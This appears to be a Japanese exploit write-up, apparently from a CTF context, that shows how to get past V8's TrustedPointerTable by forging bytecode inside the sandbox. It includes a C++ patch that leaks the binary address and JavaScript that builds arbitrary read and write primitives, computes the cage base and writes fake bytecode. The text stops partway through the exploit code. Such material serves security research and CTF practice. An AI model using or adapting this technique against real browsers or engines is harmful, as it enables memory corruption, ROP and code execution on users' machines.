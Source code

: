```cpp
+void SandboxGetH32BinaryAddress(const v8::FunctionCallbackInfo<v8::Value>& info) {
+  DCHECK(ValidateCallbackInfo(info));
+  double h32_binary_addr = (double)((unsigned long long int)&SandboxGetH32BinaryAddress >> 32 << 32);
+  info.GetReturnValue().Set(v8::Number::New(info.GetIsolate(), h32_binary_addr));
+}
+
```

v8に長らく触れていなかったうちに、サンドボックス内からポインタが根こそぎなくなっていることを確認してびっくりしました。代わりにTrustedPointerTableで管理されて、インデックスでアクセスが許可される仕組みになっているようです。

SandboxAPIが使えるときは、[ここ](https://github.com/google/google-ctf/tree/main/2023/quals/sandbox-v8box/solution)の方法を何度か使っています。

ignitionで生成されるバイトコードを変更するとリークやROPにつなげるのですが、このバイトコードもTrustedPointerTableで管理されていて触れなくなっています。しかし逆に言うと、このテーブルをサンドボックス内に向けて、同じ内容を用意できれば、同じ手法が使えるのではと考えて、これを確認しました。以下で上手く動きました。

```js
BigInt.prototype.hex = function () { return "0x"+this.toString(16); };
Number.prototype.hex = function () { return "0x"+this.toString(16); };

addrof = (obj) => Sandbox.getAddressOf(obj);
var smv = new Sandbox.MemoryView(0, 0xfffffff8);
var dv = new DataView(smv);

aar1 = (of) => { return dv.getUint8(of, true) };
aar4 = (of) => { return dv.getUint32(of, true) };
aar8 = (of) => { return dv.getBigUint64(of, true) };

aaw1 = (of, v) => { return dv.setUint8(of, v, true) };
aaw4 = (of, v) => { return dv.setUint32(of, v, true) };
aaw8 = (of, v) => { return dv.setBigUint64(of, v, true) };

hax = (a, b) => { return a + b + 1 };

var cage_base = aar8(0x58) - 0x68n;
console.log('cage_base: ', cage_base.hex());

var ofs_fake_bytecode = 0x46a40;
var addr_fake_bytecode = cage_base + BigInt(ofs_fake_bytecode);

// compile function first
hax();

/* copy from real bytecode to fake bytecode
0xb600004030c:  0x00000949      0x00400600      0x00000012      0x00194bdd
0xb600004031c:  0x00000000      0x00000011      0x00000019      0x00000000
0xb600004032c:  0x00000003      0x00000000      0x033b040b      0x01014700
0xb600004033c:  0x000000af      0x00000595      0x00000004      0x00194185
0xb600004034c:  0x000253b9      0x00000949      0x00400800      0x0000002e
*/

aaw4(ofs_fake_bytecode+0x00, 0x949);
aaw4(ofs_fake_bytecode+0x04, 0x400600);
aaw4(ofs_fake_bytecode+0x08, 0x12);
aaw4(ofs_fake_bytecode+0x0c, 0x194bdd);
aaw4(ofs_fake_bytecode+0x10, 0);
aaw4(ofs_fake_bytecode+0x14, 0x11);
aaw4(ofs_fake_bytecode+0x18, 0x19);
aaw4(ofs_fake_bytecode+0x1c, 0);
aaw4(ofs_fake_bytecode+0x20, 3);
aaw4(ofs_fake_bytecode+0x24, 0);
aaw4(ofs_fake_bytecode+0x28, 0x033b040b);
aaw4(ofs_fake_bytecode+0x2c, 0x01014700);
```